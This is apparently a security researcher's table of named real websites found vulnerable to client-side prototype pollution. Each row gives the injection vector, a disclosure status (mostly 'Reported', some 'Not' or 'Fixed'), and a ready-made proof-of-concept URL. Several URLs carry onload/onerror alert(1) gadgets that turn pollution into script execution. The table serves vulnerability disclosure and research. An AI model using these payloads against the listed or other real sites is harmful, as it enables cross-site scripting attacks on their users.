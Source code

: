 |cloud.edu|57325|URL search|-|Reported|`https://cloud.edu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clspectrum.com|456581|URL search|-|Reported|`https://clspectrum.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clubindustry.com|108988|URL search|, URL-M|Reported|`https://clubindustry.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cmiromotor.com|369262|URL search|-|Reported|`https://ibercarrera.es/vehiculos-de-ocasion/smart-eq-greenflash-edtition/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cnc3ds.com|981627|URL search|, URL-M|Reported|`https://cnc3ds.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cnet.co.uk|25411|Cookie, URL|, Cookie-M, URL-M|Reported|`https://cnet.co.uk/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cnet.com|150|URL|, Cookie-M, URL-M|Reported|`https://www.cnet.com/news/best-gifts-for-50-or-less/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|coachad.com|740253|URL|-|Reported|`https://coachad.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|coastal.com|89579|URL search|, Cookie-M, URL-M|Reported|`https://coastal.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|codeshare.io|82723|URL search|-|Reported|`https://codeshare.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|codeutopia.net|617356|URL search|, Cookie-M|Reported|`https://codeutopia.net/blog/tag/javascript/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|codexa.fr|679184|URL search|, Cookie-M, URL-M|Reported|`https://www.codexa.fr/services/syntheses/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|codota.com|28516|URL search|, Cookie-M|Reported|`https://www.codota.com/code/javascript/modules/request/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|coed.com|55737|URL search|-|Reported|`https://coed.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|colady.ru|147953|URL search|, Cookie-M|Reported|`https://colady.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|colbycc.edu|485084|URL search|-|Reported|`https://colbycc.edu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|coligotech.com|795730|URL search|-|Reported|`https://web.coligotech.com/enterprises/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|colleee.net|281356|URL|-|Reported|`https://colleee.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|collegecandy.com|100205|URL search|-|Reported|`https://collegecandy.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|collisionconf.com|95643|URL search|-|Reported|`https://collisionconf.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|coloredconventions.org|440074|URL search|-|Reported|`https://coloredconventions.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|comicvine.com|18162|URL, URL search|, URL-M|Not|`https://comicvine.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|commonhaus.co.kr|675052|URL|-|Reported|`https://commonhaus.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|compactequip.com|733594|URL|-|Reported|`https://compactequip.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|company3.com|654851|URL|-|Reported|`https://company3.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|competitivecareers.in|934463|URL search|-|Reported|`https://competitivecareers.in/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|compositesworld.com|68785|URL|-|Reported|`https://compositesworld.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|conceptclub.ru|611821|URL search|, Cookie-M|Reported|`https://conceptclub.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|conlabo.jp|422322|URL search|, Cookie-M|Reported|`https://conlabo.jp/tips/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|conlins.com|809522|URL search|, Cookie-M, URL-M|Reported|`https://conlins.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|conserveh2o.org|937222|URL search|-|Fixed|`https://www.regionalh2o.org/water-conservation/indoor-water-conservation/toilet/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|constructionbusinessowner.com|182446|URL search|-|Reported|`https://constructionbusinessowner.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|constructionequipment.com|130159|URL search|-|Reported|`https://constructionequipment.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|consumergoods.com|191463|URL search|-|Reported|`https://consumergoods.com/latest-news/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|consumerworld.org|168136|URL search|-|Not|`https://consumerworld.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|contabeis.com.br|30837|URL search|, URL-M|Reported|`https://www.contabeis.com.br/noticias/49444/conheca-praticas-consideras-discriminatorias-na-contratacao-ou-manutencao-do-emprego/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|contactually.com|92956|URL search|, Cookie-M, URL-M|Reported|`https://contactually.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`